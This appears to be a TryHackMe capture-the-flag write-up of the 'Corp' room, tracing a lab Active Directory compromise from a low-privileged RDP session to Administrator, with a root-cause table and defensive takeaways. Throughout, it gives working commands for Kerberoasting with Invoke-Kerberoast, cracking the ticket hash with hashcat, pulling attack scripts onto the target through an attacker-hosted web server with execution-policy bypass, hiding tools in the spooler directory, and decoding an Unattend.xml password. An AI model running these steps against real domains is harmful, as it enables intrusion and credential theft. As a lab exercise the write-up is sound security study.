








# TryHackMe: Corp — Writeup

**Category:** Active Directory Exploitation — Mixed Challenge
**Difficulty:** Medium
**Skills Demonstrated:** RDP Foothold Analysis, PowerShell Command History Recovery, SPN Discovery, Kerberoasting (Invoke-Kerberoast), Offline Hash Cracking (Hashcat), PowerUp Privilege Escalation Enumeration, Unattend.xml Credential Extraction, Lateral Movement via Evil-WinRM

---

## Objective

Take an existing low-privileged RDP foothold on a domain-joined Windows host and escalate all the way to Domain Administrator — combining Kerberoasting against a discoverable SPN with a classic leftover-credentials misconfiguration in an unattended installation file.

---

## 1. Initial Access via RDP

```bash
xfreerdp /v:10.112.144.203 /u:dark /p:_QuejVudId6
```



Connected directly to the target as a low-privileged domain user, `dark`, on the `omega.corp.local` / `corp.local` domain. Confirmed the session context from inside PowerShell:

```powershell
copy C:\Windows\System32\whoami.exe C:\Windows\System32\spool\drivers\color\whoami.exe
.\whoami.exe
```

Output: **`corp\dark`** — a standard domain user, no elevated rights yet.

---

## 2. Command History Recon

```powershell
type C:\Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



Pulled the PSReadline history file — a habit worth building into every AD engagement, since it often reveals what a prior session already tried. It surfaced an earlier discovered flag and a pattern of staging tools by downloading them from an attacker-controlled web server and copying them into a printer-spooler directory to blend in with legitimate system paths — a technique worth reusing for the next stage.

---

## 3. SPN Discovery

```powershell
setspn -T medin -Q */*
```



The initial query against a non-existent domain name failed and fell back to the current domain, which turned out to be useful — it surfaced a full list of registered SPNs. One entry stood out immediately: **`CN=fela,CN=Users,DC=corp,DC=local`** with an `HTTP/fela` service principal name — a user account, not a machine account, tied to an SPN. That is the exact signature of a Kerberoastable target.

---

## 4. Kerberoasting

Staged Empire's `Invoke-Kerberoast.ps1` on the attack box and served it over HTTP, reusing the same spooler-directory staging trick observed in the recovered history:

```bash
mkdir corp && cd corp
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python -m http.server 80
```

```powershell
Invoke-WebRequest -Uri http://10.112.87.241/Invoke-Kerberoast.ps1 -OutFile Invoke-Kerberoast.ps1
powershell -ep bypass
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat | fl
```



Requested a service ticket for `fela`'s SPN and extracted it in Hashcat-ready format — a full **Kerberos 5, etype 23, TGS-REP** hash, crackable entirely offline with no further interaction with the domain controller.

---

## 5. Cracking the TGS-REP Hash

```bash
cat hash.txt | tr -d "[:space:]" > hash.file
hashcat -m 13100 hash.file /usr/share/wordlists/rockyou.txt
```



Cracked against rockyou.txt in under 30 seconds:

```
Status...........: Cracked
Recovered........: 1/1 (100.00%) Digests (total)
```

**Credentials obtained: `fela:rubenF124`**

---

## 6. Lateral Movement — First Flag

```bash
evil-winrm -i 10.112.144.203 -u fela -p 'rubenF124'
```



Landed a shell as `fela`, navigated to the Desktop, and retrieved the first flag — confirming the Kerberoast → crack → authenticate chain worked end-to-end.

---

## 7. Privilege Escalation Enumeration with PowerUp

```bash
mkdir -p corp-room && cd corp-room
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -m http.server 80
```

Ran PowerUp's full privilege-escalation checklist from the `fela` session. Among a long list of modifiable scheduled task files, one finding stood out as immediately actionable: **Unattended Install Files** — leftover Windows deployment artifacts that frequently contain embedded credentials from an automated installation process.

---

## 8. Unattend.xml Credential Extraction

```powershell
type C:\Windows\Panther\Unattend\Unattended.xml
```



The file contained a full `<AutoLogon>` block with a base64-encoded password tied directly to the built-in `Administrator` account:

```xml
<AutoLogon>
  <Password>
    <Value>dHFqSnBFWDlRdjh5YktjM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
    <PlainText>false</PlainText>
  </Password>
  <Enabled>true</Enabled>
  <Username>Administrator</Username>
</AutoLogon>
```

```bash
echo "dHFqSnBFWDlRdjh5YktjM3lIY2M9TCE1ZSghd1c7JFQ=" | base64 -d
```



Decoded straight to a usable plaintext password — no cracking required, since Windows Unattend files store this value with only reversible base64 obfuscation, not a real hash.

```bash
evil-winrm -i 10.112.144.203 -u Administrator -p '<decoded_password>'
```

Landed a shell as **Administrator**, navigated to the Desktop, and retrieved the final flag — full domain compromise.

---

## Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| PowerShell command history left readable on disk for a standard user | Exposed prior session activity and techniques, giving a head start on the rest of the attack path |
| A standard user account (`fela`) had an SPN registered against it | Made the account directly Kerberoastable — a TGS-REP ticket could be requested with no elevated privileges |
| Weak password policy allowed `fela`'s Kerberoast hash to be cracked from a common wordlist | Converted a low-cost Kerberoast into fully usable domain credentials in seconds |
| Unattended installation file (`Unattend.xml`) left in place on disk after deployment | Left the built-in Administrator's autologon password recoverable via a one-line base64 decode — no cracking needed at all |
| Sensitive value stored with base64 encoding rather than genuine encryption or a one-time deployment credential | Gave a false sense of protection; base64 is trivially reversible and should never be treated as a security boundary |

---

## Key Takeaways

- **Two completely different misconfiguration classes chained into one full compromise** — Kerberoasting is a protocol-level weakness (an SPN on a user account), while the Unattend.xml exposure is an operational hygiene failure (a deployment artifact never cleaned up). Real AD environments usually fall to a combination like this, not a single flashy exploit.
- **Command history and PSReadline logs are an underrated recon source** — before running your own enumeration, check what's already been done on the box. It can save significant time and reveal staging techniques worth reusing.
- **`setspn -Q */*` is a fast, low-noise way to surface Kerberoastable accounts** — no special tooling required, and it works with any authenticated domain session.
- **Unattend.xml and similar deployment files are a recurring real-world finding**, not just a CTF trope — organizations that image machines via SCCM/MDT or answer-file-driven installs routinely leave these behind with live credentials.
- **Base64 is encoding, not encryption** — anything protected only by base64 should be treated as equivalent to plaintext by both attackers and defenders.
- **This room reinforces exactly what the [AD Security Auditor](https://github.com/mohd-atif245/ad-security-auditor) tool is designed to catch on the SPN side** — Kerberoastable accounts are a directly detectable, read-only LDAP check, which is the same class of finding the tool flags before it becomes a chain like this one.

---

*Room: [TryHackMe — Corp](https://tryhackme.com/room/corp)*
